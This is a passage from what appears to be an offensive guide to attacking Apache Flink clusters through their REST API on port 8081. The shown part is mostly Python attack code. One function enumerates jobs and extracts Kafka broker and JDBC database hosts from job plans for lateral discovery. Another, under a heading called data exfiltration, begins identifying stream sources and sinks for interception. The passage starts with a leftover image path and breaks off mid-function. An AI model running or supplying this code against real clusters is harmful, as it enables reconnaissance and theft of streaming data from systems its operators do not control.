 ```python
    return cluster_map
```

### Service Discovery Through Job Dependencies

```python
def discover_dependencies(target_host):
    """Discover connected services through job analysis"""
    base_url = f"http://{target_host}:8081"
    
    jobs = requests.get(f"{base_url}/jobs").json()
    
    dependencies = {
        "kafka_brokers": set(),
        "databases": set(),
        "apis": set(),
        "storage": set()
    }
    
    for job in jobs.get("jobs", []):
        job_detail = requests.get(f"{base_url}/jobs/{job['id']}").json()
        
        # Analyze job configuration for external dependencies
        config = job_detail.get("plan", {})
        
        # Extract Kafka brokers
        kafka_pattern = r'bootstrap\.servers["\s]*[:=]["\s]*([^"]+)'
        kafka_matches = re.findall(kafka_pattern, str(config))
        dependencies["kafka_brokers"].update(kafka_matches)
        
        # Extract database connections
        db_pattern = r'jdbc:[\w]+://([^/\s"]+)'
        db_matches = re.findall(db_pattern, str(config))
        dependencies["databases"].update(db_matches)
    
    return {k: list(v) for k, v in dependencies.items()}
```

---

## Data Exfiltration Techniques

### Stream Data Interception

```python
def intercept_stream_data(target_host, job_id):
    """Intercept streaming data through job manipulation"""
    base_url = f"http://{target_host}:8081"
    
    # Get job execution plan
    plan = requests.get(f"{base_url}/jobs/{job_id}/plan").json()
    
    # Identify source and sink operators
    sources = []
    sinks = []
    
    for node in plan.get("nodes", []):
        if "source" in node.get("description", "").lower():
            sources.append(node)
        elif "sink" in node.get("description", "").lower():
            sinks.append(node)
    
    return {
        "sources": sources,
```